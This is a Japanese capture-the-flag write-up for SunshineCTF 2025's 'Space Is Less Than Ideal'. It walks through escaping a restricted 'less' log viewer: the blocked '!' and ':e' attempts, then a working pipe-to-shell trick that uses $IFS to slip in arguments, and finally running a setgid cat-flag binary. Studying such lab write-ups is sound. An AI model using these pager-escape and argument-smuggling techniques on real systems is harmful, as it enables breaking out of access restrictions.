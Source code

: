 # SanshineCTF2025　Space Is Less Than Ideal
## 問題文
I think i did a thing.

I may have accessed a satellite.

I can access the logs anyhow. I can't seem to access anything else.

I know I've seen that type of log viewer before, but something seems... different... about it.

Well you know the expression. Less is more!

socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:(省略)

何かやった気がする。

衛星にアクセスしたかもしれない。

とにかくログにはアクセスできる。それ以外はアクセスできないようだ。

あのタイプのログビューアは見たことあるけど、何かが…違う…気がする。

まあ、あの言葉知ってるだろ？「少ないほど良い！」ってやつだ！

socat file:`tty`,raw,echo=0 TCP:chal.sunshinectf.games:(省略)

## 解法
すぐに表示が消えるのでキャプチャしながら動かす

アクセスするとつぎのような画面になる

access logsを開くとこのような画面になる。

これはlessというUnix/Linuxで広く使われているファイル閲覧コマンドで表示されたものである。lessには内部で他のコマンドを実行できる機能があり、それを使用して解く。

まずはシェルコマンド実行を試す。
!を押すと実行できるようになる
```
!ls -la
This account is not available

!done  (press RETURN)
```
この方法では無理らしい

次にファイルブラウザ機能を使ってみる
```
:e
```
と打つと
```
Examine: 
```
と表示されるので、それを使用してみる
```
:e .
This: No such file or directory  (press RETURN)
```
:eも封じられているっぽい

|を使用した方法を試す。
```
|'' a
```
で''のコマンドを実行するように（エラーを吐かせるように）試してみる。|を押すと
```
|mark:
```
となるので、aキーを入力すると
```
!
```
となる。これに入力する
```
[7mSystem Access Logs (q to quit)[27m[K

[K|mark: 

[K![K''[K''

[Ksh: : Permission denied
```
いけそう
```
ls -la
```
を実行してみる
```
|a'ls$IFS-la'
total 76
dr-xr-xr-x    1 root     root          4096 Sep 27 14:20 .
drwxr-xr-x    1 root     root          4096 Sep 27 16:48 ..
-r-xr-sr-x    1 root     flag-read      18512 Sep 27 14:20 cat-flag
-r-xr-xr-x    1 root     root          1865 Sep 23 20:52 challenge.sh
-r-xr-xr-x    1 root     root         18456 Sep 27 14:20 drop-perms
-r-xr-xr-x    1 root     root            72 Sep 23 20:52 fake-term.sh
-r--r-----    1 root     flag-read       55 Sep 23 20:52 flag.txt
-r--r--r--    1 root     root          5619 Sep 23 20:52 system_logs.txt
```
実行可能ファイルflag-readがあるので実行してみる
```
./cat-flag
[K

[K!./cat-flag

[?1l>[?1049l[23;0;0tsun{省略}
```